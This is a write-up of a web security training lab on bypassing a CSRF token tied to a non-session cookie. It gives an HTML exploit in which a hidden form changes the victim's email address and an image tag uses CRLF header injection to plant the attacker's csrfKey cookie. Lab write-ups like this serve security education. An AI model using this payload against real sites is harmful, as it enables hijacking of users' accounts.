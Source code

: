 # CSRF where token is tied to non-session cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis

|![](Images/image-12.png)|
|:--:| 
| *Test of change email functionality (user wiener) - csrf token and csrfKey is preset* |

Both users have the same `csrf` token and `csrfKey` cookie. These security measures are not tied to user sessions.

|![](Images/image-13.png)|
|:--:| 
| *Original change email request from  wiener* |
|![](Images/image-14.png)|
| *Original change email request from  carlos* |

Moreover, latest search is stored as cookie value in user browser - search term is reflected in the Set-Cookie header.

|![](Images/image-24.png)|
|:--:| 
| *Cookie - Latest search term |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL to inject your `csrfKey` cookie into the victim's browser
  - Craft POST request to `/my-account/change-email` with valid `csrf` token and valid `csrfKey` cookie
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL encoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<img src="URL/?search=test%0d%0aSet-Cookie:%20csrfKey=VALID_CSRF_KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

|![](Images/image-16.png)|
|:--:| 
| *URL decoded payload* |
|![](Images/image-15.png)|
| *Final payload* |